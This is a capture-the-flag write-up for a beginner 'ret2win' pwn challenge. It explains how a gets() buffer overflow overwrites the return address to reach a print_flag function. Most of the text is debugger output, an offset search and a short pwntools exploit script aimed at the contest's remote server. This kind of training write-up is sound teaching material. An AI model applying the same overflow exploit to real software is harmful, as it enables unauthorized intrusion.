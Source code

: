 # Baby ret2win
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-75-orange)

## Description
```
placeholder - problem hidden
```

## Solution
The `gets` function has a buffer overflow that we can abuse to overwrite the return pointer.

In 64-bit executables, when a function (like `main`) returns, it pops an address off the stack and returns to that address. If we can overwrite it, we can return to the win function.

Checking the security of the binary, it's not positionally independent, so we don't need to leak the address of `print_flag`. It's constant every time.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ p print_flag
$1 = {<text variable, no debug info>} 0x4011d6 <print_flag>
```

We can use gdb-peda's pattern feature to find the offset we want to overwrite.
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
Starting program: /workspaces/home/lyonctf/babyret2win/babyret2win 
...lots of text...
What is your name?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
Hi admin!

Program received signal SIGSEGV, Segmentation fault.
...useless debugging information...
Stopped reason: SIGSEGV
0x0000000000401390 in main ()
gdb-peda$ pattern search
Registers contain pattern buffer:
RBP+0 found at offset: 48
```

The address we want to overwrite is RBP+8, so we should first write 48+8=56 bytes of junk first. Of course, we also need 8 newlines to skip past the prompts.

```py
from pwn import *

win = 0x4011d6
#     newlines  junk        win address
pay = b'\n'*8 + b'A' * 56 + p64(win)

#p = process('./babyret2win')
p = remote("784acc4.0x16.ink", 32500)
p.sendline(pay)

p.interactive()
```


Flag: `placeholder - problem hidden`
